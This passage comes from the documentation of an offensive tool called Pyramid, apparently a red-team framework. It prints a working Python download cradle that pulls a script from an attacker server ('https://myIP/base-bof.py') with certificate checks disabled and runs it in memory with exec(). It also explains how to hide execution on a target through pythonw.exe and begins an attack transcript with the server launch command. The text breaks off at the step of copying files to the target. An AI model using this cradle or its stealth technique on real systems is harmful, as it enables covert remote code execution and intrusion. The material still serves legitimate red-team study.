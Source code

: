 ##### base-clr.py

Insert HTTPS credentials in the upper part of the script and assembly bytes of the file you want to load.

##### base-tunnel-socks5.py

Insert parameters in the upper part of the script.


#### Unzip embeddable package and execute the download cradle on target

Once the Pyramid server is running and the Base script is ready you can execute the download cradle from python.exe. A Python download cradle can be as simple as:

```python
import urllib.request
import base64
import ssl

gcontext = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
gcontext.check_hostname = False
gcontext.verify_mode = ssl.CERT_NONE
request = urllib.request.Request('https://myIP/base-bof.py')
base64string = base64.b64encode(bytes('%s:%s' % ('testuser', 'Sup3rP4ss!'),'ascii'))
request.add_header("Authorization", "Basic %s" % base64string.decode('utf-8'))
result = urllib.request.urlopen(request, context=gcontext)
payload = result.read()
exec(payload)
```

Bear in mind that urllib is an Embeddable Package native Python module, so you don't need to install additional dependencies for this cradle. 
The downloaded python "base" script will in-memory import the dependencies and execute its capabilites within the python.exe process.

#### Executing Pyramid without visible prompt

To execute Pyramid without bringing up a visible python.exe prompt you can leverage pythonw.exe that won't open a console window upon execution and is contained in the very same Windows Embeddable Package.
The following picture illustrate an example usage of pythonw.exe to execute base-tunnel-socks5.py on a remote machine without opening a python.exe console window.

![image](https://user-images.githubusercontent.com/59816245/195162985-2a14887f-5598-4829-8887-874d267d7f43.png)

The attack transcript is reported below:

Start Pyramid Server:

`python3 PyramidHTTP.py 443 testuser Sup3rP4ss! /home/nak/projects/dev/Proxy/Pyramid/key.pem /home/nak/projects/dev/Proxy/Pyramid/cert.pem /home/nak/projects/dev/Proxy/Pyramid/Server/`

Save the base download cradle to cradle.py.

Copy unpacked windows Embeddable Package (with cradle.py) to target:

